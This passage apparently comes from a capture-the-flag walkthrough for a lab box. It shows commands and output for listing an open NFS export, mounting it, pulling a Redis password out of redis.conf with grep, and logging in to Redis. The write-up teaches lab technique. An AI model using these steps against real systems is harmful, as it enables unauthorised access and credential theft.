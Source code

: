 ```                                                                                                                                                                                                           
smb: \temp\> exit
```
Great, we've got our first flag!  But it really didn't help us gain access to the box. So let's now explore the nfs service( tcp port 2049).  
                                                                                                                                                                                                               

## Explore NFS

```
showmount -e ${target}                                    
Export list for 10.10.174.8:
/opt/conf *
```
Looks like anyone can mount the `/opt/conf` directory -- so let's mount it and explore:  

```
sudo mount ${target}:/opt/conf /mnt          
cd /mnt           
ls                                                                                                                                                                                                    
hp/  init/  opt/  profile.d/  redis/  vim/  wildmidi/
```

I checked every directory, but the only one with vaulable information was the redis directory:  

```
cd redis         
ls
redis.conf
grep pass redis.conf                                                                                                                                                                                 130 ⨯
# 2) No password is configured.
# If the master is password protected (using the "requirepass" configuration
# masterauth <master-password>
requirepass "REDACTED"
# resync is enough, just passing the portion of data the slave missed while
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
# requirepass foobared
```

Awesome, we now have the password to the redis server.  

## Explore Redis

Connect to the redis server and authenticate with the password found in the nfs server:  
```
redis-cli -h ${target} 
10.10.174.8:6379> AUTH REDACTED
OK
10.10.174.8:6379>
```
Exploring the keyspace, we see there is a db0.  Let's select it and exlpore the keys:  
